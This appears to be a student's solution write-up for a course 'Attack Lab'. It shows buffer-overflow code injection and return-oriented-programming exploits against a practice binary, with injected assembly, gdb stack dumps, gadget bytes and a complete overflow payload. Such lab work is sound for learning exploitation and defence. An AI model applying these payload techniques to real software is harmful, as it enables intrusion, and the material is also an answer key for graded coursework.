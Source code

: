 # Attack Lab
## Phase 1:
No new code is injected. Overflow the buffer to redirect execution into `touch1()`.

## Phase 2:
Redirect execution into injected in the buffer, to modify argument (%rdi) to cookie:
```
movq $0x59b997fa, %rdi
```
Also, PUSH address of `touch2()` into stack (which also decrements %esp):
```
push $0x004017ec        # Address of touch2()
```
After executing RET, `touch2()` is executed.

## Phase 3:
Phase 3 is similar to phase 2, except that additional space is needed in stack to store cookie in ASCII. The stack before executing `getbuf()` has the following layout:
```
(gdb) x /20w 0x5561dc78
0x5561dc78:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x55586000	0x00000000	0x00401976	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
```
The stack after executing `getbuf()` has the following layout:
```
(gdb) x /20w 0x5561dc78
0x5561dc78:	0x60dcb8bf	0x2534ff55	0x004018fa	0x000000c3
0x5561dc88:	0x00000000	0x00000000	0x00000000	0x00000000
0x5561dc98:	0x00000000	0x00000000	0x5561dc78	0x00000000
0x5561dca8:	0x00000002	0x00000000	0x00401f24	0x00000000
0x5561dcb8:	0x39623935	0x61663739	0xf4f4f400	0xf4f4f4f4
```
Where:
* 0x5561dc78 - 0x5561dc9f is the `getbuf()` buffer, which will be injected with instructions:
    ```
    movq $0x5561dcb8, %rdi
    push $0x4018fa          # Address of touch3()
    ret
    ```
* 0x5561dca0 - 0x5561dca7 will be overflowed with address of 0x5561dc88 (to redirect the execution into injected after hitting RET of `getbuf()`
* 0x5561dcb8 - 0x5561dcbf is empty, in which we fill in the cookie in ASCII.
* Others: Should not be modified.  

Overflow the buffer as described above.  

## Phase 4:
Found the following pattern matching desired instructions:
* Overflow the buffer with cookie ASCII, then save it in %rax:
    ```
    00000000004019a7 <addval_219>:
    4019a7:   8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
    4019ad:   c3                      retq    
    ```
    In which we have
    ```
    58          pop %rax
    90          no-op
    c3          retq
    ```
* Move cookie from %rax to %rdi:
    ```
    00000000004019c3 <setval_426>:
    4019c3:   c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
    4019c9:   c3                      retq
    ```
    In which we have
    ```
    48 89 c7    movq %rax, %rdi
    90          no-op
    c3          retq
    ```
So, we can overflow the buffer with:
```
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
00 00 00 00 00 00 00 00     # Padding
ab 19 40 00 00 00 00 00     # Address of 1st gadget
fa 97 b9 59 00 00 00 00     # Cookie in ASCII
c5 19 40 00 00 00 00 00     # Address of 2nd gadget
ec 17 40 00 00 00 00 00     # Address of touch2()
```